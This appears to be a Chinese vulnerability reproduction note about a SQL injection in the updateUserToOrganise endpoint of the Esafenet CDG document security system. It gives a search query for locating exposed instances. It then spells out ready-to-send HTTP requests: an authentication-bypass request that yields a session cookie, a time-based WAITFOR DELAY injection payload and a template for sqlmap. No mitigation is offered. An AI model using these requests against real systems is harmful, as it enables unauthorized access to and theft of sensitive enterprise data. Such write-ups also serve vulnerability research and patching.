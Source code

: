 # 亿赛通电子文档安全管理系统updateUserToOrganise存在后台SQL注入漏洞

# 一、漏洞简介
 亿赛通电子文档安全管理系统（简称：CDG）是一款电子文档安全加密软件，该系统利用驱动层透明加密技术，通过对电子文档的加密保护，防止内部员工泄密和外部人员非法窃取企业核心重要数据资产，对电子文档进行全生命周期防护，系统具有透明加密、主动加密、智能加密等多种加密方式，用户可根据部门涉密程度的不同（如核心部门和普通部门），部署力度轻重不一的梯度式文档加密防护，实现技术、管理、审计进行有机的结合，在内部构建起立体化的整体信息防泄露体系，使得成本、效率和安全三者达到平衡，实现电子文档的数据安全。亿赛通电子文档安全管理系统updateUserToOrganise存在后台SQL注入漏洞，攻击者可通过该漏洞获取数据库敏感信息。

# 二、影响版本
+ 亿赛通电子文档安全管理系统

# 三、资产测绘
+ hunter`app.name="ESAFENET 亿赛通文档安全管理系统"`
+ 登录页面

![1693912211487-1ee3eb84-62a3-4c32-806a-6be32537dfb6.png](./img/qycXV3gmNouzwWlZ/1693912211487-1ee3eb84-62a3-4c32-806a-6be32537dfb6-291578.png)

# 四、漏洞复现
1. 通过身份认证绕过漏扫获取cookie

```java
POST /CDGServer3/LinkFilterService HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 98

path=BOFGGPFBFIFPBHFMGKGI&userId=GCGHGAGGFAFHFGFCFEFPFD&cur=DBNJOADCFBOPECMNBCOHMDMDKGCMMLFFCJCACB
```

![1706457190372-a4617e08-6349-4765-8781-65369d7d4a99.png](./img/qycXV3gmNouzwWlZ/1706457190372-a4617e08-6349-4765-8781-65369d7d4a99-664924.png)

```java
JSESSIONID=719804E36DC9165F889264FEFC9C60C3; Path=/CDGServer3; HttpOnly
```

2. sql注入

```java
POST /CDGServer3/user/updateUserToOrganise.jsp;Service HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Connection: close
Content-Length: 33
Content-Type: application/x-www-form-urlencoded
Cookie: JSESSIONID=719804E36DC9165F889264FEFC9C60C3; Path=/CDGServer3; HttpOnly
Accept-Encoding: gzip

userId=1';WAITFOR DELAY '0:0:1'--
```

![1706457248013-9305c59d-b8d9-4f17-bcc6-b9a1707e8cce.png](./img/qycXV3gmNouzwWlZ/1706457248013-9305c59d-b8d9-4f17-bcc6-b9a1707e8cce-940116.png)

3. sqlmap

```java
POST /CDGServer3/user/updateUserToOrganise.jsp;Service HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Connection: close
Content-Length: 33
Content-Type: application/x-www-form-urlencoded
Cookie: JSESSIONID=719804E36DC9165F889264FEFC9C60C3; Path=/CDGServer3; HttpOnly
Accept-Encoding: gzip

userId=1
```

![1706457552134-bbb6ed1c-7502-4dfb-81fe-f08c238044a8.png](./img/qycXV3gmNouzwWlZ/1706457552134-bbb6ed1c-7502-4dfb-81fe-f08c238044a8-154865.png)



> 更新: 2024-04-20 22:01:34  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/cfx26o5cmkgld0ga>